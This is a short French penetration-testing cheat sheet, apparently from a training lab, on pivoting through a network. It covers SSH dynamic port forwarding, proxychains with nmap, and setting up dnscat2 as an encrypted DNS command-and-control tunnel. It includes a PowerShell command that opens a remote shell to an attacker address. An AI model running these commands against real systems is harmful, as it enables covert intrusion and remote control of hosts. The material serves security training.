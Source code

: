 ```shell
ssh -p2222 -l<user> 127.0.0.1
```

Activer le port forwarding dynamique avec SSH

```shell
ssh -N -D 9050 -p2222 -lubuntu 127.0.0.1
```

Nmap avec proxychains

```shell
proxychains nmap -sV -sT 172.16.5.19 -p3389
```


### DNSCAT2 (Tunnel DNS) (Lent)

> [!TIP]
> C2 Chiffré de bout en bout

```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

Version powershell
```shell
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

Depuis l'attaquant

```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

Depuis le client

```powershell-session
Import-Module .\dnscat2.ps1
```

```powershell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret <key_server_generated> -Exec powershell 
```

Lister les options

```bash
?
```

Shell

```shell
window -i 1
```
